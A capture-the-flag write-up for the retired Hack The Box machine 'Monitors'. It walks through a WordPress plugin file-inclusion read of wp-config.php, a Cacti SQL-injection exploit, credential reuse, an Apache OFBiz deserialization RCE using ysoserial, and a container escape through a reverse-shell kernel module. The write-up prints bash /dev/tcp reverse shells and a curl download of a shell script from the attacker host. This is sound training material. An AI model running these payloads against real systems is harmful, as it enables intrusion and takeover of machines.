



# Monitors

This is the write-up for the box Monitors that got retired at the 9th October 2021.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.238    monitors.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/monitors.nmap 10.10.10.238
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The website shows a note that direct IP access is not allowed and if we have issues to contact the website administrator _admin[@]monitors.htb_.
A website can be reached on the hostname _monitors.htb_ that is built with **WordPress**:



In the folder _wp-content/plugins_ is a folder for a plugin called _wp-with-spritz_.

Searching for vulnerabilities for this plugin:
```
searchsploit spritz

WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion
```

There is a **Remote File Inclusion** vulnerability for the plugin and that can be tested by getting the contents of the _/etc/passwd_ file:
```
http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd
```

The WordPress configuration can be found in the file _wp-config.php_ and the credentials could be useful:
```
GET /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php HTTP/1.1
Host: monitors.htb
(...)
```
```
(...)
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
(...)
```

Getting contents of the **Apache** default configuration:
```
GET /wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../etc/apache2/sites-available/000-default.conf
```
```
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
(...)
```

There is another hostname _cacti-admin.monitors.htb_ that has to be added to the _/etc/hosts_ file to access it.



It hosts the monitoring and fault management framework [Cacti](https://www.cacti.net/) version 1.2.12 from May 2020.
By testing the password found in the WordPress configuration, it is possible to login with that and the username _admin_.

Searching for vulnerabilities in **Cacti**:
```
searchsploit cacti
```

The running version of the application has a **SQL Injection** vulnerability:
```
Cacti 1.2.12 - 'filter' SQL Injection
```

Running the exploit script:
```
python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p 'BestAdministrator@2020!' --lhost 10.10.14.2 --lport 9001
```

After executing the script, the listener on my IP and port 9001 starts a reverse shell as the user _www-data_.

## Privilege Escalation

The file _/usr/share/cacti/cacti/include/config.php_ contains credentials for the database of the **Cacti** application, which could be useful:
```
(...)
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cacti';
$database_password = 'cactipass';
$database_port     = '3306';
(...)
```

In the home folder of the user _marcus_ is a hidden _/.backup_ folder, that has only the **execute bit** set and no permissions to list the contents:
```
d--x--x--x 2 marcus marcus 4096 Nov 10  2020 .backup
```

We can search for other files that reference this directory to get a potential filename that can be read:
```
grep -Ri '\.backup' /home/ 2>/dev/null

grep -Ri '\.backup' /etc/ 2>/dev/null
```

The file _/etc/systemd/system/cacti-backup.service_ is found, which is a service that reveals a filename in the _.backup_ directory:
```
[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh
```

The file _/home/marcus/.backup/backup.sh_ can be read and it contains credentials:
```
backup_name="cacti_backup"
config_pass="VerticalEdge2020"

(...)
```

The password does work for the user _marcus_ to login via SSH:
```
ssh marcus@10.10.10.238
```

### Privilege Escalation 2

In the home directory of _marcus_ is _note.txt_ and there is a ToDo list with a task to-be-done:
```
Update docker image for production use
```

The user is not a member of groups to manage **Docker containers**, but the running container can be seen in the processes:
```
ps -ef | grep docker
```
```
root    2203    1650    /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

By checking the listening connections with `ss -lnpt`, it shows that port 8443 is listening on localhost.

Forwarding port 8443 to our local client with the **SSH command line**:
```
ssh> -L8443:127.0.0.1:8443
Forwarding port.
```

The port can now be accessed via HTTPS on our localhost on port 8443.
The website shows an HTTP status code _404 Not Found_, so lets search for hidden directories with **Gobuster**:
```
gobuster -u https://localhost:8443 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

It finds different directories, but most of them forward to the login of **Apache OFBiz**:
- _/marketing_
- _/ecommerece_
- _/accounting_
- _/webtools_



The application [Apache OFBiz](https://ofbiz.apache.org/) is an open-source Enterprise Resource Planning (ERP) system, that uses **Java** in the background.
The footer shows that it runs version 17.12.01 from March 2020, so it could have vulnerabilities:
```
searchsploit ofbiz

ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)
```

There is a **Remote Code Execution** vulnerability that can be abused with **Java Deserialization** as explained in this [repository from Vulhub](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2020-9496).

Creating a reverse shell script _shell.sh_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9002 0>&1'
```

Generating a payload with [ysoserial](https://github.com/frohoff/ysoserial) to download the bash script:
```
java -jar ysoserial.jar CommonsBeanutils1 "curl 10.10.14.2/shell.sh -o /tmp/shell.sh" | base64 | tr -d "\n"
```

Sending the request from the Proof-of-Concept with the payload to download the file to the box:
```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
Content-Type: application/xml
Content-Length: 4163

(...)
<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aW(...)
</serializable>
(...)
```

Generating a payload with **ysoserial** to execute the bash script:
```
java -jar ysoserial.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"
```

Sending another request with the payload to execute the bash script:
```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
Content-Type: application/xml
Content-Length: 4135

<serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABdqYXZhLnV0aWwu(...)
</serializable>
(...)
```

After sending the request, the shell script will be executed and the listener on my IP and port 9002 starts a reverse shell as the user _root_.
Based on the hostname, the IP and the _.dockerenv_ file in the root directory, this is a Docker container and not the target box.

## Lateral Movement

The **Process Capabilities** show that the _cap_sys_module_ is enabled, which can be [used to escape containers](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#capabilities-abuse-escape):
```
capsh --print
```
```
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
```

With this capability it is possible to load kernel modules and the [payload in this article](https://greencashew.dev/posts/how-to-add-reverseshell-to-host-from-the-privileged-container/) can be used to build such a module.

Modifying code to include our IP address:
```
(...)
static char command[] = "bash -i >& /dev/tcp/10.10.14.2/9003 0>&1"; //Reverse shell change ip and port if needed
(...)
```

Creating _Makefile_:
```
obj-m += revshell.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```

Creating kernel module:
```
make
```

Inserting the module into the kernel:
```
insmod revshell.ko
```

After inserting the module into the kernel, the listener on my IP and port 9003 starts a reverse shell as root!
